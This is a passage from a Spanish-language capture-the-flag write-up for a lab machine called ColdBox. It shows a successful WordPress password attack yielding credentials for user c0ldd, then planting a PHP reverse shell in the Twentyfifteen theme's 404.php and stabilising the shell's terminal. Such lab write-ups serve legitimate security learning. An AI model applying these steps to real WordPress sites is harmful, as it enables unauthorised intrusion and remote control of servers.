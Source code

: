```bash
  [+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                    
 
```

Accedemos al panel con usuario c0ldd

## Explotación

<aside>
💡 Explotaremos un WordPress

</aside>

### Explotación 1

Una vez autenticados con un usuario, probaremos a editar un plugin con una revershell :

![image.png](ColdBox%2016c360cb06dd8010b126f73d9cd4d8c8/image%205.png)

Editamos el tema “Twenttyfifteen” , el archivo 404.php, con una revershell en php.

La ejecutamos con la ruta:  

http://10.10.112.7/wp-content/themes/twentyfifteen/404.php

Obtenemos la revershell 

Hacemos tratamiento de la tty

```bash
script -c bash /dev/null
cntr+z
stty raw -echo; fg
reset term
export TERM=XTERM
export SHELL=BASH
```

